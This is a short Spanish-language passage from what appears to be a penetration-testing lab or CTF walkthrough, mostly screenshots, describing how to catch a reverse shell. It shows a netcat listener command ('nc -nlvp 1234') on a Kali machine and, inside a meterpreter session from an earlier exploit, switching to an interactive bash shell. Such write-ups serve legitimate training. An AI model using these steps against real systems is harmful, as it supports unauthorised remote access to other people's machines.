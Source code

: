     <img src="../img/Pasted_image_20241225222310.png" width="500">
</p>


Pero antes de ejecutar el comandos que nos enviará una `reverse shell`, nos ponemos en nuestra máquina KALI a la escucha con `netcat`, por el puerto que especificamos.
```
nc -nlvp 1234
```

<p align="center">
    <img src="../img/Pasted_image_20241225222440.png" width="500">
</p>


En la sesión de `meterpreter` que obtuvimos con la explotación de la máquina vamos a cambiarnos a una `shell` y iniciamos con una `bash`
```
shell
/bin/bash -i
```

<p align="center">
    <img src="../img/Pasted_image_20241225222748.png" width="500">
</p>
